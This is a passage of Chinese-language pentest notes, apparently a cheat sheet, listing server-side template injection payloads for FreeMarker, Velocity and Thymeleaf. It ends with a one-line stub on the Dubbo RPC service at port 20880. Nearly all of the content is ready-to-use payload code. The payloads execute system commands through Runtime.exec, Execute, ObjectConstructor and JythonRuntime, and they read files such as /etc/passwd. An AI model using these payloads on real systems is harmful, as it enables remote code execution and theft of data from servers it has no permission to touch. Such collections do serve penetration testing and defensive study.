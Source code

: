 # 代码执行











# 模板注入SSTI

## FreeMarker

> FreeMarker拥有自己的模板编写规则并使用FTL表示，即FreeMarker模板语言，比如:myweb.html**.ftl**就是一个FreeMarker模板文件
>
> Freemarker可利用的点在于模版语法本身，直接渲染用户输入payload会被转码而失效，所以**一般的利用场景为上传或者修改模版文件**

poc

命令执行：

```java
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("open -a Calculator.app"")}
```

```java
<#assign value="freemarker.template.utility.ObjectConstructor"new()>${value("java.lang.ProcessBuilder","whoami").start()}
```

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")
```

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

文件读取：

```java
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

```java
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

> 这里利用载荷是要把上面的Object替换替换成可编辑模板中可用的真实的Object后利用才行



## velocity

poc

```java
// 命令执行1
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

// 命令执行2 
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

// 命令执行3
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

## Thymeleaf

poc实质上是spel表达式注入

命令执行

```java
// 参数传参
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::.x
    
// 路径传参
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22whoami%22).getInputStream()).next()%7d__::.x.x
```



# Dubbo--20880端口

**dubbo是一个基于Spring的RPC（远程过程调用）框架，能够实现服务的远程调用、服务的治理**

![t01dd60f99ea19aec96](../..\../source\images\t01dd60f99ea19aec96.jpg)

